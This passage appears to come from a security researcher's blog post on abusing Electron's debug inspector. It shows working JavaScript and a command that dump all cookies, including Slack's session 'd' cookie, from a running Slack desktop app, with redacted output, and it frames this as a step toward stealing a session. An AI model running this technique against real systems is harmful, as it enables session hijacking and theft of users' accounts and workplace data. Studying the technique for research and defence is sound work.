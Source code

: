 For the full code with the example scripts, check out [electron-probe](https://github.com/xpcmdshell/electron-probe).

## Building Something Useful
Particularly of interest are the [Session API](https://www.electronjs.org/docs/api/session) and the [WebContents API](https://www.electronjs.org/docs/api/web-contents).

Let's get a handle to the Electron runtime, so that we can access all the methods [included in its API](https://www.electronjs.org/docs/api):

```js
electron = process.mainModule.require('electron');
```

First up, using the Session API we can get access to the cookie storage of the current session(`defaultSession`):
```js
// dump_slack_cookies.js
electron = process.mainModule.require('electron');
JSON.stringify((await electron.session.defaultSession.cookies.get({})))
```

You may notice that we used `JSON.stringify` on the result. Getting values out of the V8 VM can be finicky, depending on the object type returned. I'm resorting to pulling out objects as strings of JSON for easy parsing. For more robust handling of different object types being returned, see `Runtime.getProperties` and `Runtime.queryObjects`. 

Running the result, it appears to work:
```shell
$ ./electron-probe -inspect-target http://localhost:9229 -script scripts/dump_slack_cookies.js | jq 

[
  [... SNIP]
    {
    "name": "ssb_instance_id",
    "value": "90d5538e- [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": false,
    "httpOnly": false,
    "session": false,
    "expirationDate": 1945639889,
    "sameSite": "unspecified"
  },
  {
    "name": "d",
    "value": "aX9QnD8F [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": true,
    "httpOnly": true,
    "session": false,
    "expirationDate": 1941391182.507454,
    "sameSite": "lax"
  },
 [...SNIP]
]
```
We've extracted the `d` cookie value from a running Slack instance. This is half of the material we need to steal a session.

---